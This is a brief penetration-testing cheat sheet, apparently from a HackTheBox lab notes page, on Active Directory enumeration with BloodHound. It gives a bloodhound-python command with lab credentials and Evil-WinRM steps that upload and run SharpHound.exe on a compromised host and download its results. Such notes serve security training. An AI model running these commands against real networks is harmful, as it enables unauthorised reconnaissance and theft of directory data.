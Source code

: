 # Bloodhound

Bloodhound Python

```bash
bloodhound-python -d htb.local -usvc-alfresco -p s3rvice
-gc forest.htb.local -c all -ns 10.10.10.161
```



Upload SharpHound

```
*Evil-WinRM* PS C: \Users\support\Documents> upload SharpHound.exe
```

Execute SharpHound

```
*Evil-WinRM* PS C:\Users\support\Documents> ./SharpHound.exe
```

Download results

<pre class="language-powershell"><code class="lang-powershell"><strong>*Evil-WinRM* PS C:\Users\support\Documents> download 20221217070128_BloodHound.zip
</strong></code></pre>

